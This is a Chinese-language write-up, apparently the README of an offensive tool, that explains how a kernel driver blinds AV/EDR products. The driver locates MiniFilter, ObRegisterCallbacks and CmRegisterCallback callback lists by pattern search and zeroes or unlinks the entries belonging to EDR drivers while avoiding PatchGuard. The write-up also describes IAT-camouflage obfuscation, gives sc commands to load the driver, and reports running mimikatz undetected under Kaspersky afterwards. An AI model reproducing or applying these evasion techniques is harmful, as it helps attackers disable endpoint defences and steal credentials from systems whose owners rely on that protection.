**核心逻辑解析**

1. **定位全局 MiniFilter 数据结构**

* 通过搜索指定模式（调用 `FindPattern` 函数），找到 `FltGlobals` 数据结构的位置。
* 解析并计算全局框架（`FLT_FRAME`）的地址，提取指向 `FLT_FILTER` 和 `FLT_VOLUMES` 的指针。

2. **处理 MiniFilter 驱动列表**

* 遍历 `FLT_FILTER` 链表：

* 获取每个 MiniFilter 驱动的地址及名称（通过 `ReadDriverName`）。
* 检查是否是与 EDR 相关的驱动（通过 `IsEDRHash` 判断）。
* 如果是 EDR 驱动，调用 `RemoveInstanceCallback`，清除其回调实例。

3. **处理卷（Volume）回调**

* 遍历 `FLT_VOLUMES` 链表：

* 获取卷回调节点的基地址（`VolumesCallback`）。
* 遍历并处理回调节点链表：

* 检查节点是否属于 EDR 实例（`IsEDRIntance`）。
* 如果是，则清除该节点，并更新链表链接（`Flink` 和 `Blink`）。

4. **输出处理结果**

* 打印每个 `FLT_FILTER` 和 `FLT_VOLUMES` 的地址及处理情况，包括清理的节点数量。

​

### ObjectCallBackManager.c

1. **获取回调列表的头指针**：

* 根据对象类型（`PsProcessType` 或 `PsThreadType`），找到与 `ObRegisterCallbacks` 相关的回调链表头地址。
* 使用特定的偏移量（取决于操作系统版本）解析内核结构。

2. **遍历回调链表**：

* 逐个节点读取链表中注册的 `PreOperation` 和 `PostOperation` 回调函数地址。

3. **判断是否为 EDR 回调**：

* 检查回调函数所属的驱动程序名称是否属于已知的 EDR 驱动（通过 `IsEDRHash` 函数）。

4. **清除 EDR 回调**：

* 如果检测到是 EDR 回调，直接清空对应节点的回调地址（通过写入 `0`）。

​

#### 1. `ClearObRegisterCallbacks`

功能

* 是整个逻辑的入口，负责调用其他函数枚举和清理与 `ObRegisterCallbacks` 相关的回调函数。

逻辑

1. 定义了两个对象类型：

* `PsProcessType`：进程对象回调。
* `PsThreadType`：线程对象回调。

2. 遍历对象类型数组，逐个处理每种对象类型的回调。

* 调用 `GetPsProcessAndProcessTypeAddr` 获取对应类型的回调链表头地址。
* 调用 `RemoveObRegisterCallbacks` 清理对应类型的回调链表。

#### **2.** `GetPsProcessAndProcessTypeAddr`

功能

* 根据对象类型（`PsProcessType` 或 `PsThreadType`），获取回调链表头的地址。

逻辑

1. 根据对象类型选择合适的内核函数：

* 进程类型选择 `NtDuplicateObject_CH`。
* 线程类型选择 `NtOpenThreadTokenEx_CH`。

2. 通过模式搜索（`FindPattern`）定位回调链表头的地址指针。

* 使用 `CalculateOffset` 解析指令中的偏移量。
* 读取指针的值，返回链表头地址。

#### **3.** `RemoveObRegisterCallbacks`

功能

* 清除指定类型对象的回调列表中与 EDR 相关的回调。

逻辑

1. **确定链表头地址**：

* 根据 OS 版本和对象类型，计算回调列表的偏移量。
* 读取链表头指针（`Flink` 和 `Blink`）。

2. **遍历链表节点**：

* 遍历整个链表，统计回调节点数量。
* 对每个节点读取 `PreOperation` 和 `PostOperation` 回调地址。

3. **清理回调**：

* 对每个回调地址调用 `ProcessCallback`：

* 检查回调地址对应的驱动名称。
* 如果是 EDR 回调，清空其内存值。

* 移动到链表中的下一个节点。

#### **4.** `ProcessCallback`

功能

* 处理每个回调函数地址，检查是否属于 EDR 驱动，并清理回调。

逻辑

1. 根据回调地址获取对应的驱动程序名称（`GetDriverName`）。
2. 调用 `IsEDRHash` 检查驱动程序是否属于已知的 EDR 驱动。
3. 如果是 EDR 驱动，清除对应的回调地址，并打印清理信息。

### RegistryCallbackManager.c

这段代码的主要作用是**清理与** `CmRegisterCallback` **注册的注册表回调函数**，同时枚举和打印当前已注册的驱动名称。通过修改回调链表的头节点地址（或其他字段），代码尝试绕过 Windows 内核的 **PatchGuard** 保护机制，从而清理或禁用特定的回调（如 EDR 相关的回调）。

​

**获取回调链表地址**：

* 使用 `CmUnRegisterCallback` 函数的地址，定位回调链表的头节点地址。
* 通过模式匹配和偏移量计算得到链表头。

**遍历回调链表**：

* 读取链表中的每个节点，提取注册的回调函数地址。
* 获取回调函数所属驱动名称，并打印。

**清空回调链表**：

* **修改链表的头节点地址**，使所有回调失效。
* 仅修改头节点，避免触发 Windows 的 PatchGuard 检测。

## 常用的规避EDR技巧

`IatCamouflage`（IAT Camouflage）函数的主要功能是通过混淆手段隐藏真实的意图或行为，具体体现在以下几个方面：

1. **动态内存分配和随机化**：

* 使用伪随机的种子和时间戳生成随机大小的内存缓冲区。
* 在缓冲区中存储伪随机值，增加调试和分析的复杂度。

2. **引入不可预测性**：

* 使用 `__rdtsc()`（获取 CPU 时间戳计数器）和随机化的哈希值生成不可预测的执行路径。

3. **混淆 IAT 使用痕迹**：

* 调用一系列 Windows API 函数（如 `GetTickCount64`、`GetSystemInfo` 等），引入大量看似无关的操作。
* 通过这些调用干扰逆向分析工具对 IAT（Import Address Table）依赖的行为分析。

4. **隐藏执行逻辑**：

* 将随机生成的哈希值与动态计算值（基于时间戳和系统信息）混合，干扰静态和动态分析。

5. **内存清理**：

* 在执行完伪代码逻辑后，释放分配的随机缓冲区，减少内存残留信息。

# 操作演示

开启windows 测试模式，然后重启系统





创建驱动服务，开启驱动服务。

```
sc create rwdriver binPath= "C:\Users\Driver\Desktop\driver\rwdriver.sys" type= kernel start= demand
sc start rwdriver
```



免责声明



输入1致盲，输入2恢复致盲（需要有MemoryFile.data)



具体致盲效果



如果去除了debug宏，就无显示




无感落地，因为已经把filter清除掉了



直接骑在卡巴头上用mimikatz



恢复致盲后，会直接禁止访问



# 参考

<https://www.pnpon.com/>

[AV/EDR 完全致盲 - 清除6大内核回调实现](https://mp.weixin.qq.com/s/ZMTjDMMdQoOczxzZ7OAGtA)

​

# 鸣谢

1. 北秋风清

这个项目很大程度受到 [RealBlindingEDR](https://github.com/myzxcg/RealBlindingEDR) 的启发。从简单的小驱动写起，然后在进行驱动函数调用。

2. 指尖浮生（我师傅）
